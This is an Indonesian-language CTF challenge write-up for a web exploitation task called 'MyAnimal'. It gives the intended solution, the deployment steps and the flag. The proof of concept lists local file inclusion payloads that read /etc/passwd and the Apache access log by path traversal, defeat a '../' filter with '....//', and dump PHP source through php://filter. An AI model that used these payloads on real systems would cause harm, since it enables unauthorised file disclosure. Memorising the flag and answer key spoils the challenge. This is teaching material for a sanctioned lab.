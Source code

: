 # SOAL HOLOGY Web Exploitation #3

### Judul : MyAnimal

### Author : wuvel

## Deskripsi

Help me to find the important missing page! The Admin has created a bot to access the important page frequently to prevent that. But the Admin forgot the bot password. The admin said the bot still running and doing its job. So how do i retrieve the missing page?

## Konsep Soal

- Vulnerability yang diterapkan adalah LFI (Local File Inclusion) dengan beberapa proteksi tambahan, yaitu blokir string "../" dan User hanya dapat mengakses file dengan nama binatang (fox, dog, dan cat) di dalamnya.
- Peserta diharapkan akan membaca source code dog.php menggunakan PHP Filter setelah berhasil mem-bypass proteksi tadi dan akan menemukan clue.
- Clue tersebut akan menuntun Peserta untuk mengakses log apache yang di sana akan ada bot yang mengakses halaman flag setiap 1 menit sekali.


## Proof of Concept

- Mengakses website yang diberikan, lalu dengan jelas diberikan fitur untuk melihat foto binatang dengan php include.

- Karena sudah jelas bahwa bisa dieksploitasi menggunakan Local File Inclusion, maka langsung saja kita masukan payload basic:
  ```
  ../../../../../../etc/passwd
  ```
- User akan mendapatkan pesan "Sorry, only dog, fox, and cat are allowed.". Karena kita hanya boleh melihat foto binatang-binatang tersebut saja.
- User mem-bypass proteksi tersebut dengan memasukkan payload:
  ```
  Contoh: 
  dog/../../../etc/passwd
  ```
- User menyadari pesan error:
  ```
  Warning: include(dog/etc/passwd.php): failed to open stream: No such file or directory in C:\xampp\htdocs\index.php on line 166
  ```
- Karena sudah tahu bahwa extensionnya akan selalu berakhiran .php, maka User akan mencoba menggunakan PHP Filter dengan payload:
  ```
  php://filter/convert.base64-encode/resource=dog/../index
  ```
- User menyadari kembali jika string "../" akan dihilangkan. Maka dengan mudah User akan mem-bypassnya menggunakan payload:
  ```
  php://filter/convert.base64-encode/resource=dog/....//index
  ```
- User mendapatkan source-code index.php tetapi dengan representasi base64. User mendecodenya (jika perlu) untuk mencari hint selanjutnya. Hint selanjutnya berada pada file dog.php, maka User menggunakan payload tadi untuk mendapatkan source codenya.
  ```
  Payload:
  php://filter/convert.base64-encode/resource=dog
  
  Hasil:
  <?php  
  $flag = "Nice, the flag is behind that LOG";
  ?>
  <img width="460" height="460" class="center" src="dogs/<?php echo rand(1, 5); ?>.png" />
  ```
- User melihat hint tersebut dan tahu bahwa User harus mengakses log. User mengakses apache log dengan menggunakan payload:
  ```
  dog/....//....//....//....//....//....//....//....//....//....//....//....//var/log/apache2/access.log
  ```
- User melihat bahwa "bot" mengakses halaman "ini_flagnya_beneran_ga_bohongxixixi.html".
- User mengkases halaman tersebut pada website dan mendapatkan flagnya!


## Hints

U got the vuln already? Now look deeper to the source code.

## Deployment

1. Jalankan perintah
    ```
    docker-compose up -d
    crontab /path/to/crontab
    ```
   Pada direktori "deploy"
2. Buat script yang dijalanin bot (bisa server lain / server yang sama), taruh script berikut.
    ```
    curl http://localhost/ini_flagnya_beneran_ga_bohongxixixi.html > /dev/null 2>&1
    ```
   Jangan lupa dijadikan cronjob setiap 1 menit.

## Flag

<details>
<summary>Tekan untuk melihat flag</summary>

    hology3{3z_bYp4s5_LFI_y4_kh4n}

</details>


